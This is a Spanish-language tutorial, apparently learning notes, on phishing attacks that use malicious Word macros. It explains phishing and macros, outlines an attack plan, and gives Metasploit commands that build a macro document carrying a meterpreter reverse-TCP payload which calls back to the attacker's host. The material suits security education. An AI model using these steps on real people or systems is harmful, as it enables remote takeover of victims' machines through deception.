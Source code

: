 # Objetivos de aprendizaje

- Entender como funciona un ataque de phising
- Descubrir como los macros del documentos puedes usarse y abusar
- Aprender como realizar un ataque de phishing con una macro

# Phishing

Como todos sabemos en el término de seguridad los humanos somos el eslabón más débil, ¿Qué es más fácil buscar una vulnerabilidad en un sistema detras de un firewall o convender a alguien de abrir un documento "importante"?

Phishing es como la palabra pescar, sin embargo, el atacante no se come luego el pesado jiji, bueno, Phishing funciona mandando un "bait" normalmente a un grupo de usuarios. El atacante crea mensajes dependiendo de la urgencia, del target para que tomen medidas inmediatas, incrementando los chances. El proposito realmente es robar información personal o instalar un malware, normalmente se convence a la víctima a utilizar un formulario, abrir un archivo  o clickar en un link

# Macros

Una macro se refiere una instrucción programada diseñada para automatizar tareas repetitivas. Office, te ayudan a crear macros en el documento. En muchos casos, estos macros son características que pueden quitar mucho tiempo. Sin embargo en ciber seguridad estos programas pueden llevar dentro propositos maliciosos.

Para añadir una macro dentro de un documento de Word, nos iremos a menu de ver seleccionaremos Macros y se nos abrira, especificaremos el archivo en cuestión y crearemos

![image](https://github.com/user-attachments/assets/427c5c19-bef5-4730-a38c-fecb78620d05)

Vamos a explorar como un atacante crea un documento y lo utiliza para ganar acecso a un sistema

# Plan de ataque

En este plan necesitamos crear un documento malicioso. Al abrir el documento, la macro se ejecute el payload conectado en la máquina y no se un control remoto. Posteirormente, necesitaremos estar escuchando las conexiones de dicha maquina antes de mandar dicho documento. Para ejecutar el macro utilizaremos una rev shell, utilizada para ejecutar comandos remotamente.

- Crear un documento con la redirección maliciosa
- Estar a la escucha de conexiónes

# Crear un documento malicioso

El primer paso es crear dicho documento en m icaso utilizare metasploit

```
msfconsole

set payload windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro

set LHOST (nuestra ip)

set LPORT (puero en cuestión)

exploit

exit
```

